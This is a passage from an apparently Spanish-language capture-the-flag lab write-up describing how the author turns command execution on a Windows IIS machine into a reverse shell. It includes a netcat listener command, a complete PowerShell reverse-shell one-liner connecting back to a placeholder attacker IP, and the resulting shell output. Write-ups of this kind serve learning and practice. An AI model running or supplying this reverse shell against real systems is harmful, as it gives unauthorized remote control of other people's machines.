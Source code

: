 <img src="/assets/images/THL-writeup-ensalaPapas/Captura8.png">
</p>

Excelente, parece que somos un usuario llamado **info**.

Ahora, podemos obtener una **Reverse Shell** desde esta **CMD**.

Abre una **netcat** usando **rlwrap**:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
```

En mi caso, voy a aplicar la siguiente:
```batch
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('Tu_IP',Puerto_a_Usar);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Observa el resultado:
```batch
rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.010] 49159
PS C:\windows\system32\inetsrv> whoami
win-4qu3qnhnk7e\info
```
Estamos dentro.

